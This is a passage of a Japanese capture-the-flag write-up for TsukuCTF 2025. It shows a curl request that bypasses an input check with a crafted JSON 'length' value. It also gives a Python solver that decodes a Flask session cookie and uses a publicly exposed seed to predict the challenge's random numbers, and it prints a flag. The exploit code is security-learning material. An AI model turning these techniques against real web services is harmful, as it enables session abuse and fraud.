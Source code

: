 入力文字列から空白をすべて除去したあと、長さが10未満ならエラーを返し、JSONパースして配列長が負数ならフラグを返す。負となるのはパース後の`length`のため、配列じゃなくオブジェクトとして渡せば直接指定することができる。

```bash
curl -X POST -d 'array={"length":-1}' http://challs.tsukuctf.org:28888
```

`TsukuCTF25{l4n_l1n_lun_l4n_l0n}`

### flash [170 solve]

Flaskのセッションcookieは改ざんするのはsecretが分かってないと難しいが、読むだけならbase64でdecodeするとできるので、sessionに含まれる`session_id`を取り出し、SEEDと合わせて疑似乱数生成器を完全再現すれば残りのラウンドの値も予測可能。なおSEEDは`/static/seed.txt`にあり、外部からアクセスが可能だった。

```python
import json
import base64
import hmac
import hashlib

s_cookie = input('session: ')
decoded_s = base64.b64decode(s_cookie).decode('utf-8','ignore').split('}')[0]+'}'
session_id = json.loads(decoded_s)["session_id"]

SEED = bytes.fromhex('b7c4c422a93fdc991075b22b79aa12bb19770b1c9b741dd44acbafd4bc6d1aabc1b9378f3b68ac345535673fcf07f089a8492dc1b05343a80b3d002f070771c6')
DIGITS_PER_ROUND = 7
TOTAL_ROUNDS = 10

def lcg_params(seed: bytes, session_id: str):
    m = 2147483693
    raw_a = hmac.new(seed, (session_id + "a").encode(), hashlib.sha256).digest()
    a = (int.from_bytes(raw_a[:8], 'big') % (m - 1)) + 1
    raw_c = hmac.new(seed, (session_id + "c").encode(), hashlib.sha256).digest()
    c = (int.from_bytes(raw_c[:8], 'big') % (m - 1)) + 1
    return m, a, c

def generate_round_digits(seed: bytes, session_id: str, round_index: int):
    LCG_M, LCG_A, LCG_C = lcg_params(seed, session_id)
    h0 = hmac.new(seed, session_id.encode(), hashlib.sha256).digest()
    state = int.from_bytes(h0, 'big') % LCG_M
    for _ in range(DIGITS_PER_ROUND * round_index):
        state = (LCG_A * state + LCG_C) % LCG_M
    digits = []
    for _ in range(DIGITS_PER_ROUND):
        state = (LCG_A * state + LCG_C) % LCG_M
        digits.append(state % 10)
    return digits

correct_sum = 0
for round_index in range(TOTAL_ROUNDS):
    digits = generate_round_digits(SEED, session_id, round_index)
    number = int(''.join(map(str, digits)))
    correct_sum += number

print(correct_sum)
```


[^yaml]: yaml側の問題として、binaryタグを工夫すれば使えるっぽい。
[^order]: http://blog.lkan.onl/posts/TsukuCTF_2025/#xortsukushift-34-solve より
[^gohan]: こんだけ写真を上げていたらすぐにどのお店か分かっちゃいそうですね。